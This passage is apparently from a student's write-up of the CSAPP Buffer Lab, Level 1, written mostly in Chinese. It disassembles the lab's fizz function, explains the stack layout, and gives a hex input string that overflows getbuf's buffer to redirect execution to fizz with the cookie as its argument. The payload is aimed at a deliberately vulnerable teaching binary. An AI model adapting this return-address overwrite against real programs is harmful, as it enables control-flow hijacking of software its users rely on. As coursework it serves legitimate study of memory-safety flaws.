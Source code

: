   

* #### Level1: Sparkler

  ```
  Similar to Level 0, your task isto get BUFBOMB to execute the code for fizz rather than returningto test. In this case, however, you must make it appear to fizz as if you havepassed your cookie as its argument. How can you do this?
  ```

  调用fizz，并使fizz的参数为userid对应的cookie

  fizz的地址为`0x08048c42`

  ```assembly
  08048c42 <fizz>:
   8048c42:	55                   	push   %ebp
   8048c43:	89 e5                	mov    %esp,%ebp
   8048c45:	83 ec 18             	sub    $0x18,%esp
   8048c48:	8b 45 08             	mov    0x8(%ebp),%eax
   8048c4b:	3b 05 08 d1 04 08    	cmp    0x804d108,%eax
   8048c51:	75 26                	jne    8048c79 <fizz+0x37>
   8048c53:	89 44 24 08          	mov    %eax,0x8(%esp)
   8048c57:	c7 44 24 04 ee a4 04 	movl   $0x804a4ee,0x4(%esp)
   8048c5e:	08 
   8048c5f:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
   8048c66:	e8 55 fd ff ff       	call   80489c0 <__printf_chk@plt>
   8048c6b:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
   8048c72:	e8 04 07 00 00       	call   804937b <validate>
   8048c77:	eb 18                	jmp    8048c91 <fizz+0x4f>
   8048c79:	89 44 24 08          	mov    %eax,0x8(%esp)
   8048c7d:	c7 44 24 04 40 a3 04 	movl   $0x804a340,0x4(%esp)
   8048c84:	08 
   8048c85:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
   8048c8c:	e8 2f fd ff ff       	call   80489c0 <__printf_chk@plt>
   8048c91:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
   8048c98:	e8 63 fc ff ff       	call   8048900 <exit@plt>
  ```

  参数的地址为0x8(%ebp)，fizz的返回地址在0x4(%ebp)

  fizz通过getbuf的返回地址调用，没有返回地址入栈，所以应填充四字节作为fizz的返回地址，然后再将cookie放置到0x8(%ebp)

  ```
  61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 42 8c 04 08 61 61 61 61 b0 b7 f4 67
  ```

  ![1](https://raw.githubusercontent.com/AiDaiP/AiDaiP.github.io/master/images/CSAPP-Buffer%20Lab/1.png)

  